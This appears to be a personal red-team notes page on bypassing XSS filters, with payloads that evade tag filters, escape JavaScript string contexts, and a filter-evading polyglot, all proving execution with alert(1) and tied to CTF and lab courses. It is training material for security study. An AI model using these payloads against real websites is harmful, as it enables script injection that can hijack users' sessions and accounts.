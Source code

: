 # XSS Filters Bypass

*To bypass advanced filtering: [HTML Payloads Tricks](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#html) and [JavaScript payloads Tricks](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#javascript).*

<div class="row row-cols-lg-2"><div>

PortSwigger has an awesome list of HTML tags and HTML attributes allowing you to easily find [XSS payloads](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

1. FUZZ and find allowed tags
2. Select a tag in the list that you can use
3. Either test a few payloads, or FUZZ again

You may also use [xss-payload-list](https://github.com/payloadbox/xss-payload-list) <small>(6.8k ⭐)</small>. Below are some of my favorites. They may not require user interaction <small>(e.g. auto)</small>, optionally according to the target <small>(e.g. auto|manual)</small>, or always <small>(e.g. manual)</small>.

* Tags: `a#href`, `iframe#src`, `object#data`, `embed#src`

```html!
<a href="javascript:alert(1)">x</a>      <!-- auto -->
```

* Tags: `DETAILS`

```html!
<details open ontoggle=alert(1)></details> <!-- auto -->
```
</div><div>

* Tags: `*`

```html!
<a id=x tabindex=1 onfocus=alert(1)></a> <!-- auto|manual -->
```

* Tags: `INPUT`, `SELECT`, `BUTTON`, `KEYGEN`, etc.

```html!
<input autofocus onfocus="alert(1)">     <!-- auto -->
```

* Tags: `IMG`, `LINK`, `INPUT`, `BODY`, `SOURCE`, etc.

```html!
<img src=1 onerror="alert(1)">           <!-- auto -->
```

* Others

```html!
<svg onload=alert(1)>
<svg><animatetransform onbegin=alert(1)>
```
</div></div>

<hr class="sep-both">

## Context Escape

<div class="row row-cols-lg-2"><div>

In multiple CTFs, the input is reflected in a specific context.

#### Context Escape — JavaScript

[![cross_site_scripting](../../../../../_badges/htb/cross_site_scripting.svg)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
[![xssgi](../../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![mystery](../../../../../_badges/ps-lab/mystery.svg)](https://portswigger.net/web-security/all-topics)

A common case is from within JavaScript code:

```javascript
let xxx = 'here'
xxx.innerHTML = 'here'
```

Common payloads or examples:

* `';alert(1);//`
* `''-alert(1)-''` 
* `''+alert(1)+''` 
* `''&alert(1)&''`
* `"};alert(1)//`

See also: [JavaScript eval function](/cybersecurity/red-team/s3.exploitation/vulns/injection/eval.md).
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

#### XSS Polygots Filtering Bypass

[![xssgi](../../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)

Polygot are complex payloads designed to bypass many filter:

```js!
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div><div>
</div></div>